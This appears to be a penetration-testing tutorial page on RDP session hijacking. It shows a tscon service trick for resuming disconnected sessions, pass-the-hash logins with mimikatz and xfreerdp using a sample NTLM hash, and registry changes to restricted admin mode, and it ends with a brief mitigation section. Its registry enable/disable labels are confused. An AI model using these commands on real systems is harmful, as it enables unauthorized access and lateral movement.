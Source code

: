 # RDP Session Hijacking

## <mark style="color:red;">Intro</mark>

<mark style="color:green;">**RDP hijacking attacks involve the attacker “resuming” a previously disconnected RDP session (without a proper logout)**</mark>. This allows the attacker to get into a privileged system without having to steal the user’s credentials. For example, if an administrator remoted into a Windows Server machine a few days ago, it is much easier for the attacker to “resume” this very session, rather than attempting to obtain the administrator account’s password.

{% hint style="info" %}
Connecting to a workstation with Remote Desktop will disconnect any existing session. The `/admin` flag allows us to connect to the admin session, which does not disconnect the current user if we perform the login with the same user.
{% endhint %}

## <mark style="color:red;">Passwordless hijacking</mark>

Let’s focus on the RDP hijacking technique leveraging the [Tscon.exe](https://support.microsoft.com/en-us/help/302801/the-use-of-tscon-exe-can-leave-a-previously-locked-console-unlocked) utility, which comes with Windows. It enables a user to connect to a different remote desktop session on a system or switch between different sessions.

The syntax for the command is simple:

```powershell
tscon {<SessionID> | <SessionName>} [/dest:<SessionName>] [/password:<pw> | /password:*] [/v]
```

The simplest example would be `tscon 2`.

&#x20;Running such a command on a server hosting the remote desktop session would connect the user to session with ID 2 and disconnect any existing sessions they are on.&#x20;

to resume a previously disconnected RDP session an attacker with system-level access can setup a service with this syntax:

```powershell
sc create hijackedsession binpath= “cmd.exe /k tscon 1 /dest:rdp-tcp#2”
net start hijackedsession

```

This will disconnect the current session of the attacker and “resume” the previously disconnected session between the attacker and the RDP server without asking for a password or leaving much of a forensic trace.

## <mark style="color:red;">restricted admin mode</mark>

Since clear text credentials are required for all interactive logins, <mark style="color:green;">**Microsoft introduced RDP with restricted admin mode which allows system administrators to perform a network login with RDP**</mark> In an attempt to prevent attackers from stealing credentials on a compromised server.

<mark style="color:green;">**A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on.**</mark> This type of login is commonly used by service accounts.

We can use restricted admin mode by supplying the /restrictedadmin argument to mstsc.exe. When we supply this argument, <mark style="color:green;">**the current login session is used to authenticate the session :**</mark>

```
mstsc.exe /restrictedadmin
```

## <mark style="color:red;">Pass-the-Hash with mstsc.exe</mark>

Restricted admin mode is disabled by default but the setting can be controlled through the `DisableRestrictedAdmin` registry entry at the following path:

```
HKLM:\System\CurrentControlSet\Control\Lsa
```

{% hint style="success" %}
While restricted admin mode protects against credential theft on the target, when enabled, it is possible to pass the hash when doing lateral movement with mstsc.
{% endhint %}

```
sekurlsa::pth /user:admin /domain:corp1  /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

to disable restricted admin mode, run this as admin:

```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

to enable it, first run a local powershell session as admin user:

```
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```

and enable restricted admin mode:

```
Enter-PSSession -Computer appsrv01 
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

{% hint style="info" %}
#### <mark style="color:green;">xfreerdp RDP client, which is installed on a Kali system by default, supports restricted remote admin connections as well.</mark>
{% endhint %}

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
```

## <mark style="color:red;">Mitigation</mark>

Due to the nature of RDP protocol and the behavior exploited by this technique, monitoring for an RDP hijacking attack is difficult because, to forensic tools, the activity looks as if a legitimate, authorized remote user was accessing the system.

**Enforce Group Policy:** Instead of leaving “disconnected” remote desktop sessions in dormant state for long, Group Policy settings should be changed to log off users either instantly or shortly after they have disconnected an RDP session. This will prevent an attacker from simply “resuming” a session in a credential-less manner.
